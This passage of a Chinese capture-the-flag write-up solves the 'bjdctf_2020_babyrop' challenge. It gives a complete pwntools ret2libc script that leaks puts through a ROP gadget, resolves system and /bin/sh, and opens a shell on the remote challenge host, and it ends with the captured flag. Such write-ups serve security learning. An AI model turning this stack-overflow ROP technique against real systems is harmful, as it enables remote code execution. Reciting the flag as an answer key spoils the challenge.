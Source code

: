 ```python
libc = LibcSearcher("puts", puts_addr)
libc_base = puts_addr - libc.dump("puts") # 基地址

system_addr = libc_base + libc.dump("system") # system() 地址
bin_sh_addr = libc_base + libc.dump("str_bin_sh") # /bin/sh 地址
```

OK，有了这些就能构造第二个 Payload

```python
payload2 = b"A"*(0x20+0x8) + pack(pop_rdi_ret, 64) + pack(bin_sh_addr, 64) + pack(system_addr, 64)
io.sendlineafter(b"Pull up your sword and tell me u story!\n", payload2)
```

随后就能 `io.interactive()`，这个 `puts()` 可能会对应多个 Libc，最差的方法就是一个一个试过去（我自己是这么干的）

## 附总 Exp

```python
from pwn import *
from LibcSearcher import *

io = remote("node4.buuoj.cn", 28549)
elf = ELF("./bjdctf_2020_babyrop")

main_addr = elf.symbols["main"]
puts_plt = elf.plt["puts"]
puts_got = elf.got["puts"]

pop_rdi_ret = 0x400733

payload1 = b"A"*(0x20+0x8) + pack(pop_rdi_ret, 64) + pack(puts_got, 64) + pack(puts_plt, 64) + pack(main_addr, 64)
io.sendlineafter(b"Pull up your sword and tell me u story!\n", payload1)
puts_addr = unpack(io.recvline().strip().ljust(8, b"\0"), 64)

libc = LibcSearcher("puts", puts_addr)
libc_base = puts_addr - libc.dump("puts")

system_addr = libc_base + libc.dump("system")
bin_sh_addr = libc_base + libc.dump("str_bin_sh")

payload2 = b"A"*(0x20+0x8) + pack(pop_rdi_ret, 64) + pack(bin_sh_addr, 64) + pack(system_addr, 64)
io.sendlineafter(b"Pull up your sword and tell me u story!\n", payload2)

io.interactive()
```

最后得到的 Flag 是 `flag{b050bf66-64a5-4ceb-bc37-8cf0ec5812a3}`

## FAQ / ChatGPT

